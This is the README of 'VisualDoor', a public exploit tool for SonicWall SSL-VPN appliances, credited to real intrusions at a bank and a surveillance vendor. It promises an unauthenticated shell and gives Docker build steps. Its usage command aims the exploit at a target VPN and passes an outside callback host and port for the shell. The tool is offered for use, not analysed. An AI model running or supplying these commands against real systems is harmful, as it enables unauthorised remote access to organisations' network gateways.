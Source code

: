 # VisualDoor
SonicWall SSL-VPN Exploit, as used by Phineas Fisher to hack Cayman Trust Bank and Hacking Team.

Unauthenticated, gives you a "nobody" shell. Getting root is an exercise for the user.

For details see: https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/

# Docker
```
git clone https://github.com/superzerosec/VisualDoor.git
cd VisualDoor
docker build -t myvisualdoor .
```

# Usage
```
docker run --rm -it -p 443 myvisualdoor python /app/visualdoor.py https://some-vpn.lol:8090 hacke.rs 1337
```
